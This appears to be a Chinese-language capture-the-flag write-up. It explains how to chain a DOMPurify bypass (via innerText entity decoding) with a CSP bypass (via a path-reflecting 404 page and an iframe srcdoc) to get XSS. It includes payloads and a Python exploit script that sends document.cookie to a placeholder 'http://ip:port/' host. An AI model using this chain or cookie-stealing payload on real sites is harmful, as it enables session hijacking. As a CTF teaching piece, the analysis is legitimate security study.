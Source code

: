 # 绕过DOMPurify
`index.js`中有如下代码：
```js
const sanitizedText = sanitizeContent(atob(decodeURI(queryText)));
    if (sanitizedText.length > 0) {
        textInput.innerHTML = sanitizedText;             // 写入预览区
        contentDisplay.innerHTML = textInput.innerText;  // 写入效果显示区
```
queryText被sanitize之后，先通过innerHTML写入textInput，再用innerHTML复制到contentDisplay中。

innerText会对元素内容先html实体解码后再输出，所以在sanitize之后有一次html实体解码可以用来绕过。

# 绕过CSP
## 404页面
题目设置了以下csp：
```js
const csp = "script-src 'self'; object-src 'none'; base-uri 'none';";
```
只允许加载来自self的js脚本。

服务器有一个显示404页面的中间件，会将path显示到页面，内容可控。
```js
app.use((req, res) => {
  res.status(200).type('text/plain').send(`${decodeURI(req.path)} : invalid path`);
}); // 404 页面
```

所以思路就是将js代码写入path，然后通过404页面返回，用script标签加载，类似jsonp。

## js代码注入
注入的方法应该挺多的，这里只提供一个trick。

访问`/test`会得到：
```
/test : invalid path
```
但`//test`会将test认为是域名，被csp拦截。

可以用正则表达式绕过，javascript中正则表达式不需要引号，只需要用`/`包裹即可。
```js
>>> /asd/.test('asasad');
false
```

payload:
```html
<script src=a/%0aalert(1);//></script>
```

# 链接起来
通过innerHTML注入是一个DOM XSS，在执行innerHTML之前DOM树已经解析好了，此时再插入script标签是不会进行解析的，这时要执行js代码一般考虑这两个方向：
* 触发监听器，如img onerror之类的。（CSP限制了）
* 使用iframe嵌入一个子页面，在子页面加载时可以重新唤起DOM解析器进行解析script标签。

使用iframe的srcdoc即可。

payload：
```
<iframe srcdoc='<script src=a/%0aalert(1);//></script>'></iframe>
```

## 利用脚本
```python
from urllib.parse import quote
import base64
import re

def html_entity_encode(text : str) -> str:
    def repl(match : re.Match) -> str:
        table = {
            '\'' : "&apos;",
            '"' : "&quot;",
            "<" : '&lt;',
            ">" : "&gt;"
        }

        char = match.groups()[0]
        return table[char]

    res = re.sub(r"(['\"<>])", repl, text)
    return res

payload = '''
a/
fetch("http://ip:port/" + encodeURI(document.cookie)) //
'''.strip()

payload = '''
<iframe srcdoc="<script src={}></script>"></iframe>
'''.format(quote(payload, safe='/;:+')).strip()

payload = html_entity_encode(payload)
payload = base64.b64encode(payload.encode()).decode()

print(payload)
```